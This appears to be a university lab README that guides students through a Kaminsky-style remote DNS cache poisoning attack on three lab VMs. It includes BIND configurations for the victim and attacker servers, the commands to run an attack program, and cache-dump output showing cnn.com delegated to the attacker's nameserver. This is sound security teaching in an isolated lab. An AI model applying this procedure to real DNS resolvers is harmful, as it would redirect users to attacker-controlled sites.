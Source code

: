 ## Remote DNS Cache Poisoning Attack (aka, the Dan Kaminsky Attack)

### Requirement

In this lab, you will poison the cache of a remote DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Reference

You are recommended to watch this video first so as to understand how this attack works.

[The Kaminsky Vulnerability: DNS Under Attack](https://www.youtube.com/watch?v=qftKfFVHVuY)

### Setup

3 Linux VMs: victim (DNS) client, victim (DNS) server, attacker. All 3 VMs are located in the same network - however, we are not allowed to exploit this fact for the attacks, in other words, the attacker in this lab is not allowed to use wireshark to sniff any packets, or use the *netwox* command to inject forged DNS responses. After all, this lab is trying to demonstrate how attackers from a remote network can still perform DNS cache poisoning.

The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |              Role                     |
|-----|---------------|---------------------------------------|
| VM1 | 172.16.77.128 |   victim DNS client                   |
| VM2 | 172.16.77.129 |   victim DNS server                   |
| VM3 | 172.16.77.130 |   attacker, attacker's DNS server     |

### Special Notes

1. in this lab, you need to copy several files from this github repository into either your victim DNS server VM, or into your attacker VM, thus it is more convenient if you just clone this repository on your victim DNS server VM, and also clone this same repository on your attacker VM.

2. many of the commands in this lab require *sudo*.

### Steps

1. on victim DNS client, configure DNS server information, i.e., let the client know the IP address of the victim DNS server.

1.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-remote-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-remote-dns-configure-dns.png "configure dns")

1.2. run the following command so the above change will take effect:

```console
[05/29/22]seed@VM:~$ sudo resolvconf -u
```

![alt text](lab-remote-dns-resolvconf.png "resolvconf command")

2. setting up the local DNS server.

2.1. add the following into /etc/bind/named.conf (so that it forwards all requests for the attacker32.com domain to the malicious DNS server).

```console
zone "attacker32.com" {
    type forward;
    forwarders {
        172.16.77.130; // replace 172.16.77.130 with your attacker VM's IP address, do not remove the ";".
    };
};
```

**Explanation**: the added lines are saying, for DNS queries regarding this attacker32.com domain, please forward the queries to 172.16.77.130. we do this so that we don't need to actually purchase the domain attacker32.com.

2.2. copy named.conf.options into the /etc/bind/ directory, and also copy named.conf.default-zones into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones /etc/bind/
```

**Explanation**: these two files will overwrite the default files, and with these two files, now the victim DNS server is configured to forward all DNS requests to 1.2.3.4, which does not provide DNS services, and then later on the attacker will impersonate 1.2.3.4 to send forged responses to the victim DNS server.

2.3. restart DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

**Warning**: in your report, don't claim that the attack presented in this lab is not realistic because we need to make these changes on the victim DNS server. Such changes are unnecessary in a real life attacking scenario. The lab is designed in such a way, just to save you - the student, some money - so you don't need to purchase a domain, and to save you - the student, some time, we hardcoded 1.2.3.4 in the configuration file of the victim DNS server and also in the attacking program, otherwise you will need to manually to find out the IP address of authoritative name server for cnn.com.

3. setting up the attacker DNS server.

3.1. copy attacker32.com.zone and cnn.com.zone into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp attacker32.com.zone /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp cnn.com.zone /etc/bind/
```

Remember to replace 172.16.77.130 in attacker32.com.zone with your attacker VM's IP address.

3.2. add the following into /etc/bind/named.conf (so that the above two configuration files will be used):

```console
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};

zone "cnn.com" {
    type master;
    file "/etc/bind/cnn.com.zone";
};
```

3.3. restart attacker's DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

4. on victim DNS client, send two queries.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

the first *dig* command should show you the legitimate mapping: 

![alt text](lab-remote-dns-before-attack.png "dig cnn, before attack")

whereas the second *dig* command should show you that www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com:

![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker, before attack")

the goal of this attack is, when the victim DNS client runs either of the above two commands, the victim DNS client will get the same result, i.e., www.cnn.com is mapped to the IP address of fakenews.com.

5. right before we start the attack, let's clear the victim DNS server's cache. on the victim DNS server, run:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo rndc flush
```

6. launch the attack: on the attacker's VM, run the attacking program, which is developed based on the famous Dan Kaminsky attack.

```console
[05/29/22]seed@VM:~/.../remotedns$ gcc -o attack attack.c
[05/29/22]seed@VM:~/.../remotedns$ sudo ./attack 172.16.77.130 172.16.77.129
```

**Note**: replace 172.16.77.130 with your attacker VM's IP address, replace 172.16.77.129 with your victim DNS server VM's IP address.

7. the attack may take a couple of minutes. on victim DNS server VM, we can check the cache to verify if the cache is poisoned or not.

```console
[05/29/22]seed@VM:~$ sudo rndc dumpdb -cache
[05/29/22]seed@VM:~$ cat /var/cache/bind/dump.db | grep attacker
ns.attacker32.com.	9992	\-AAAA	;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
cnn.com.		65529	NS	ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1792] [v6 TTL 9992] [v4 success] [v6 nxrrset]
```

as long as we see this *NS* record which associates cnn.com. to ns.attacker32.com., then we know the cache is now poisoned.

8. we can then verify the result from the victim DNS client. on the victim DNS client VM, we just need to send two queries.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

if the attack is successful, then these two commands should now show the same result, which is www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com.

the following screenshots show that the attack is successful:
![alt text](lab-remote-dns-dig-default-p1.png "dig cnn")
![alt text](lab-remote-dns-dig-default-p2.png "dig cnn")
![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker")
![alt text](lab-remote-dns-dig-attacker-p2.png "dig cnn from attacker")

9. you are recommended to remove the line you added on the victim DNS client VM in step 1, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

10. you are also recommended to restore the two files on the victim DNS server VM:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options.orig /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones.orig /etc/bind/
```
